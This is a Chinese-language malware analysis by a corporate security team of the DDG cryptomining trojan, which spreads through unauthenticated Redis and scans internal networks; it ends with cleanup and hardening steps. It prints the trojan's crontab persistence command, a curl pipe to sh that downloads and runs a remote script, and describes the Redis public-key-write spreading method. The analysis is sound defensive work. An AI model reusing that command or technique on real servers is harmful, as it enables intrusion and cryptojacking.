

# 【木马分析】比特币挖矿木马Ddg分析


                                阅读量   
                                **110167**
                            
                        |
                        
                                                                                    


##### 译文声明

本文是翻译文章，文章原作者，文章来源：安全客
                                <br>原文地址：[]()

译文仅供参考，具体内容表达以及含义原文为准

**[](./img/85678/t01f4f8f7585d958839.jpg)**

**引言**

近年来go语言火热，一些恶意软件也闻风而起，然而go程序在编译过程中集成了大量的基础库，并且不同版本格式也存在较大差异，给逆向带来不小的阻力。乐视云安全攻防小组专注于应急事件响应，二进制安全，让我们一起剖析下基于go的恶意软件.

近日，乐视安全中心接获用户服务器高负载告警，经安全人员协查分析，发现是通过redis漏洞传播的挖矿木马-ddg，大量消耗服务器资源，难以清除并具有内网扩散功能。本文为乐视安全中心对木马具体原理功能及传播方式进行的分析，以及给出的解决方案。

<br>

**0x01 木马行为**

[](./img/85678/t01f314c7e4ddda4969.jpg)

登陆被感染服务器，利用top查看CPU使用率，找到CPU消耗进程AnXqV

通过kill杀死AnXqV进程并进行删除，约15分种后系统告警，AnXqV再次创建并启动

此时查看crontab定时器发现指令: 

```
curl -fsSL http://www.haveabitchin.com/pm.sh?223 | sh
```

定时下载并执行如下脚本：  

[](https://p4.ssl.qhimg.com/t0130732b0cbd58dd17.jpg)

<br>

**0x02 木马功能**

ddg.222为golang编写无明显函数符号和字符串特征

[](https://p1.ssl.qhimg.com/t018fe5a1fa44d53365.jpg)

根据编译版本编写辅助脚本还原golang函数符号

[](https://p3.ssl.qhimg.com/t012f2b2e321ca2bc3b.jpg)

摘要出ddg主要使用到的功能库

```
shirou_gopsutil,VividCortex_godaemon,boltdb_bolt,garyburd_redigo,golang_protobuf_proto,hashicorp_yamux,moul_http2curl,parnurzeal_gorequest,satori_go_2euuid
```

分别具有启动后台守护进程，监控进程和系统信息(Cpu和内存，网络，机器码，Mac地址等)，实现redis客户端操作key/value数据库操作，开启RPC服务远程调用，单TCP多路复用等功能

分析ddg执行执行过程，首先调用ddg_aaredis__Server_genLanAddress接口获取局域网地址

[](https://p5.ssl.qhimg.com/t0198f0548a35c86489.jpg)

[](https://p0.ssl.qhimg.com/t0119427d9c73cb2d94.jpg)调用ddg_aaredis__Server_worker开启扫描，在内网子网掩码内循环调用分别对每个ip测试了ddg_aaredis__Server_testRedis函数

[](https://p5.ssl.qhimg.com/t011aff393c85f5c203.jpg)

ddg_aaredis__Server_testRedis函数主要用于测试redis漏洞，通过测试是否可以未授权访问redis并写入公钥登陆来进行扩散

[](https://p2.ssl.qhimg.com/t01c389c9910b2369d0.jpg)

梳理木马功能：

1、对可以未授权访问redis的服务器写入公钥登录，定时下载并执行脚本；

2、脚本下载AnXqV和ddg文件并运行，AnXqV进行挖矿，ddg进行系统监控远程调用并内网传播。

<br>

**0x03 清理方案**

根据以上原理对木马进行清除，由于不同版本木马的写入文件名不同，需对照各自木马脚本下载的文件路径和文件名执行以下操作：

1、设置redis授权访问。

2、阻断服务器通讯。

(如iptables -A INPUT -s xmr.crypto-pool.fr -j DROP and iptables -A OUTPUT -d xmr.crypto-pool.fr -j DROP)

3、清除定时器任务。(如systemctl stop crond)

4、删除木马和未知公钥文件。(如/tmp/ddg.222,/tmp/AnXqV.yam,/tmp/AnXqV,/tmp/AnXqV.noaes等及 ~/.ssh/中未知授权)

5、终止木马进程。(如pkill AnXqV,pkill ddg.222)

<br>

**0x04 总结**

通过对此次木马扩散事件的分析和处理，为减少和杜绝此类事件的再次发生，提高安全预警能力，在此提醒业界同仁加强关注日常高带宽高资源服务器的运维安全细节：

1、对各类访问认证进行严格的授权

2、定期排查和实时抽查服务器状态，异常流量及cpu消耗需及时上报分析并与专业安全团队合作协查

3、关注敏感安全事件，及时修复高危漏洞

欢迎各位安全工作者关注乐视安全，向我们反馈涉及乐视公司的任何安全相关问题，我们将会及时确认、处理！希望大家大力支持乐视安全应急响应中心。漏洞接收邮箱：lesrc@le.com 

**【转载须知】转载请留言，无授权内容及图片的童鞋会被举报的哦~**

[](https://p0.ssl.qhimg.com/t01f0af938c11455d99.jpg)
